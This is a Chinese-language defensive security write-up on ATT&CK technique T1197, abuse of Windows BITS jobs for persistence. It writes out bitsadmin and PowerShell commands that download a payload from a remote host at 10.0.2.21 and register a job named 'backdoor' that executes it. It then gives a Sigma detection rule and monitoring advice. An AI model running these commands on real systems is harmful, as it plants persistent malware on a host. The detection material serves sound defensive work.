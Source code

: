 # T1197-Win-BITS Jobs权限维持

## 来自ATT&CK的描述

Windows BITS（后台智能传输服务）是一种通过COM（组件对象模型）公开的低带宽异步文件传输机制。BITS通常由更新程序、消息程序和其他希望在后台运行（使用可用空闲带宽）而不中断其他网络应用的程序使用。文件传输任务被实现为BITS任务，其中包含一个或多个文件操作队列。

可以通过PowerShell和BITSAdmin工具访问BITS任务创建和管理接口。

攻击者可能会在运行恶意代码后滥用BITS来实现下载、执行甚至清理动作。BITS任务包含在BITS任务数据库中，不需创建新文件或修改注册表，且通常是主机防火墙允许的。启用BITS的执行还可以通过创建长期任务（默认最大生命周期为90天且可延长）或在任务完成或出现错误（包括系统重启后的错误）时调用任意程序来允许持久性。

BITS上传功能也可用于执行Exfiltration Over Alternative Protocol。

## 测试案例

Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“bitsadmin”的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

从攻击的角度来看，可以滥用此功能，以便在受感染的主机上下载有效负载（可执行文件，PowerShell脚本，Scriptlet等）并在给定时间执行这些文件，在红队操作中可以用作保持持久性。但是，与“bitsadmin”进行交互需要管理员级别的权限。

执行以下命令会将恶意有效负载从远程位置下载到本地目录。

```dos
bitsadmin /transfer backdoor /download /priority high http://10.0.2.21/pentestlab.exe C:\tmp\pentestlab.exe #注意此处下载地址必须是标准的HTTP协议。
```

还有一个PowerShell cmdlet可以执行相同的任务。

```powershell
Start-BitsTransfer -Source "http://10.0.2.21/pentestlab.exe" -Destination "C:\tmp\pentestlab.exe"
```

将文件放入磁盘后，可以通过从“bitsadmin”实用程序执行以下命令来实现持久性。用法非常简单：

- 在创建参数需要任务的名称

``` dos
bitsadmin /create backdoor
```

- 该addfile需要文件的远程位置和本地路径

``` dos
bitsadmin /addfile backdoor "http://10.0.2.21/pentestlab.exe"  "C:\tmp\pentestlab.exe"
```

- 该SetNotifyCmdLine将执行的命令

```dos
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\pentestlab.exe NUL
```

- 所述SetMinRetryDelay定义时间回调（秒）

```dos
bitsadmin /SetMinRetryDelay "backdoor" 60
```

- 该简历参数将运行位工作

```dos
bitsadmin /resume backdoor
```

## 检测日志

windows 安全日志/windows BITS应用日志/Windows sysmon日志

## 测试复现

![image1](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110145812-668139170.png)

![image2](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110227491-23710429.png)

![image3](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110245500-1362389929.png)

## 测试留痕

![image4](https://s2.ax1x.com/2020/01/14/lqedzV.png)

![image5](https://s2.ax1x.com/2020/01/14/lqeWz6.png)

![image6](https://s2.ax1x.com/2020/01/14/lqmiYn.png)

## 检测规则/思路

### Sigma规则

```yml
title: Bitsadmin Download
status: 测试阶段
description: 试用bitsadmin进行下载任务
references:
    - https://blog.netspi.com/15-ways-to-download-a-file/#bitsadmin
    - https://isc.sans.edu/diary/22264
tags:
    - attack.defense_evasion
    - attack.persistence
    - attack.t1197
    - attack.s0190
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Eventid:
            - 4688 #windows 进程创建，当系统版本在2012以上，可记录命令行参数，可基于命令行参数进行监控。
            - 1    #sysmon 进程创建，当系统中部署有sysmon，可通过sysmon中的进程创建日志进行监控。
        Image:
            - '*\bitsadmin.exe' #此规则检测作用有限，不针对powershelll下场景做检测
        CommandLine:
            - '* /transfer *'
    selection2:
        CommandLine:
            - '*copy bitsadmin.exe*'
    condition: selection1 or selection2
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Some legitimate apps use this, but limited.
level: medium
```

### 建议

建议非系统程序发起的BITS传送任务进行分析检测（白名单机制）。

BITS作为服务运行。可使用Sc查询实用程序（sc query bits）来检查其状态。可使用BITSAdmin工具（bitsadmin/list/allusers/verbose）枚举活跃的BITS任务。

监控BITSAdmin工具（尤其是Transfer，Create，AddFile，SetNotifyFlags，SetNotifyCmdLine，SetMinRetryDelay，SetCustomHeaders和Resume命令选项）的使用及Windows事件日志来查看BITS活动。还要考虑通过解析BITS任务数据库来调查任务相关的更多详细信息。

监控和分析BITS生成的网络活动。BITS任务使用HTTP（S）和SMB进行远程连接，仅限于创建用户，并且仅在该用户登录时才起作用（即使用户将任务附加到服务账号，此规则也适用）。

## 参考推荐

Window权限维持（六）

BITS Jobs <https://www.cnblogs.com/xiaozi/p/11833583.html>

MITRE-ATT&CK-T1197

<https://attack.mitre.org/techniques/T1197/>

MITRE ATT&CK 攻击知识库（企业）中文版

<https://hansight.github.io/#/detail>

BITS持久化留痕日志文件下载地址

<https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/Persistence/persist_bitsadmin_Microsoft-Windows-Bits-Client-Operational.evtx>
